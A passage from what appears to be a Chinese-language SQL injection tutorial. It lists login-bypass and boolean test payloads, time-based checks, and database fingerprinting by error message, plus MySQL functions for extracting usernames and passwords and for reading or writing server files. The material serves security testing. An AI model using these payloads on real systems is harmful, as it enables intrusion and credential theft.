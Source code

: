 **基于逻辑**：通过输入永真条件（总是成立），可以测试漏洞。例如，将 `admin' OR '1'='1` 输入到用户名字段中，如果系统有漏洞，则可能以管理员身份登录。

* 合并字符
  ```sql
  `+HERP
  '||'DERP
  '+'herp
  ' 'DERP
  '%20'HERP
  '%2B'HERP
  ```
* 逻辑测试
  ```sql
  ?id=1 or 1=1 -- true
  ?id=1' or 1=1 -- true
  ?id=1" or 1=1 -- true
  ?id=1 and 1=2 -- false
  ```

**基于时间**：输入引发故意延迟的 SQL 命令（例如，使用 MySQL 中的 `SLEEP` 或 `BENCHMARK` 函数）可以帮助识别潜在的注入点。如果应用程序在此类输入后响应时间异常长，则可能存在漏洞。



## 数据库判断

通过触发报错并检查数据库返回的特定消息，用于识别。

| 数据库               | 示例报错消息                                                 | 示例Payload |
| :------------------- | :----------------------------------------------------------- | :---------- |
| MySQL                | `You have an error in your SQL syntax; ... near '' at line 1` | `'`         |
| PostgreSQL           | `ERROR: unterminated quoted string at or near "'"`           | `'`         |
| PostgreSQL           | `ERROR: syntax error at or near "1"`                         | `1'`        |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.`     | `'`         |
| Microsoft SQL Server | `Incorrect syntax near ''.`                                  | `'`         |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'`        |
| Oracle               | `ORA-00933: SQL command not properly ended`                  | `'`         |
| Oracle               | `ORA-01756: quoted string not properly terminated`           | `'`         |
| Oracle               | `ORA-00923: FROM keyword not found where expected`           | `1'`        |

### 常用参数：

- `user()`：当前数据库用户
- `database()`：当前数据库名
- `version()`：当前使用的数据库版本
- `@@datadir`：数据库存储数据路径
- `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`
- `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来
- `concat_ws()`：用法类似
- `hex()` 和 `unhex()`：用于 hex 编码解码
- `ASCII()`：返回字符的 ASCII 码值
- `CHAR()`：把整数转换为对应的字符
- `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`
- `select xxoo into outfile '路径'`：权限较高时可直接写文件
